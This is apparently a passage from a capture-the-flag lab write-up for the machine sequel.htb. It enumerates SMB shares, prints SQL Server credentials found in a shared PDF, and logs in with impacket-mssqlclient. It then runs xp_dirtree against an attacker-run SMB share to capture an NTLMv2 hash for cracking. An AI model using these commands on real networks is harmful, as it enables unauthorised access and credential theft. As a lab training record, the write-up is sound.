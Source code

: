 ```bash
smbclient -L //$IP      
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.202 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

After connecting to the remote public share that it is readable I found a file `SQL Server Procedures.pdf`. I then downloaded the file to be analyzed, from here i found the user: `brandon`

![[Pasted image 20240423191535.png]]

In this PDF, as can be seen above we find credentials for the SQL server.
`PublicUser`:`GuestUserCantWrite1`

Next, I used `impacket-mssqlclient` to inspect the database.
```bash
$ impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)>
```

## Foothold

One thing we can do here is run `xp_dirtree` to list the contents of a controlled SMB share, so that we can get the NTLMv2 hash and try to crack it afterwards. Let’s set up the SMB server:

Starting an **smbserver** using `impacket`:
```bash
impacket-server smbFolder $(pwd) -smb2support
```

Now from the SQL server:
```bash
SQL> EXEC xp_dirtree '\\10.10.14.40\smbFolder', 1, 1
```

